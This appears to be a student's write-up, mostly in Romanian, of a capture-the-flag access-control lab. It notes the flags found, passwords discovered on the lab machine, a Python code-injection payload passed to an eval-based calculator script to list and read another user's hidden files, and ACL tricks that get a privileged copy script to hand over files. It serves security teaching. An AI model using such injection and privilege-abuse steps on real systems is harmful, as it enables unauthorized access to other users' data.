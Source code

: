 # Lab 5 Access Control

## Task 1
 
* **_Flag 1_**

... there is a flag in there... yeah right ... literally, a "flag"

```bash
$ cat /etc/secret/flag
# ISC{y1Z33}
```
* **_Flag 2_**

i have no idea for this one

* **_Flag 3_**

din hacker (numai el are permisiune de read in afara de root)
```BASH
# sus
$ readelf -a /usr/local/bin/giff-me-flag | grep FLAG
# 0x000000006ffffffb (FLAGS_1)            Flags: NOW PIE

$ strings /usr/local/bin/giff-me-flag
# apar niste fraze printre care si secventa
# What do you say?
# PLEASE!!!11oneone   ----- yesss this is it!!!!!!!!
# Wrong answer!
# /etc/secret/.hahah/.y0u_c4nt_gu355_th1s
# Okay, here's your flag: %s
# 
```

din decanu sau mihai (orice in afara de hacker ca sa se duca pe other, ca numai ei au permisiune de execute)

```bash
$ giff-me-flag PLEASE!!!11oneone
# Okay, here's your flag: ISC{4lw4ys_s4y_m4g1c_w0rd}
# e flagul ascuns in /etc/secret
```


## Task2

userul *mihai* are parola hunter2

```bash
$ tree /home/
```
La userul *rekt0r* avem un tutorial

    tldr *decanu* poate folosi sudo in locul lui *rekt0r* ca sa execute script ul cu  read...

La *decanu* avem un folder ascuns cu parola [xaX4xaxa4444]

La *t4l3nt* avem un fisier ascuns cu flags - nvm e pt taskul 4



Nu mai am alte idei :(


## Task 3

* dezactivam "testing" mode ca sa rulam comanda de python, nu math.pi 
```bash
$ mv /tmp/.TEST_MODE_ENABLED /tmp/.TEST_MODE_DISABLED
# scriptul verifica daca exista fisierul si suprascrie expresia de python daca exista
```

* incercam sa aflam continutul directorului cu python (si chatGPT :P)
```bash
$ ./sant_calculator "'\n'.join(__import__('subprocess').check_output(['ls', '/home/t4l
3nt/.flags']).decode().splitlines())"
# hehe found it
# izitthis.txt
# no_thiz.txt
# whereisflagz0rx.txt
```

* afisam continutul fisierelor
```bash
$ ./sant_calculator "open('/home/t4l3nt/.flags/izitthis.txt', 'r').read()"
# TZAEAPA
# hmm hmmm ... fine

$ ./sant_calculator "open('/home/t4l3nt/.flags/no_thiz.txt', 'r').read()"
# NOT HERE
# it's not funny anymore

$ ./sant_calculator "open('/home/t4l3nt/.flags/whereisflagz0rx.txt', 'r').read()"
# ISC(su1d_vs_pyth0n_w1nz)
# intr-un final...
```

## Task 4

```bash
$ su student
# parola e student ofc :P
$ strings /usr/local/bin/copy-the-flags
# !/bin/bash
# set -e
# umask 000
# DEST=/home/student/givemeflagz
# su -c 'ls -l /home/student/' dujm3n >/dev/null 2>&1 || { echo "Test failed!" >&2; exit 1; }
# ! su -c 'ls -l '$DEST'/' dujm3n >/dev/null 2>&1 || { echo "Test failed!" >&2; exit 2; }
# ! su -c 'ls -l '$DEST'/' an0th3r0n3 >/dev/null 2>&1 || { echo "Test failed!" >&2; exit 3; }
# su -c 'bash -c "umask 000; cp -f /home/flagz0wner/lastflag1.txt '$DEST'/"' flagz0wner || { echo 'Copy 1 failed!'; exit 4; }
# echo "First flag successfully copied!"
# DEST=/home/student/givemeflagz/second
# ! su -c 'ls -l '$DEST'/' flagz0wner >/dev/null 2>&1 || { echo "Test failed!" >&2; exit 5; }
# su -c 'bash -c "umask 006; mkdir -p "'$DEST'"; umask 000; cat /home/flagz0wner/lastflag2.txt > '$DEST'/lastflag2.txt"' flagz0wner || { echo 'Copy 2 failed!'; exit 6; }
# echo "Second flag successfully copied!"

$ cd ~
$ mkdir givemeflagz
$ chmod og-rw givemeflagz/
# scoate permisiunile de read pt categoria others ca sa treaca de testul 2 si 3
# cred ca ajunge sa scoti si doar read
$ setfacl  -m  u:flagz0wner:7  givemeflagz/
# acorda permisiuni numai lui flagz0wner 
$ copy-t3h-fl4gz
$ ls -al givemeflagz/
$ cat givemeflagz/lastflag1.txt
# ISC{almost_there_hang_on}
$ cat second/lastflag2.txt
# second este un folder pe care avem numai drept de execute => blind guessed numele dupa formatul primului flag
# hope it works
# anddddd Yesssss it works!!!!!
# ISC{gg_ok_no_more_leet_speak}
```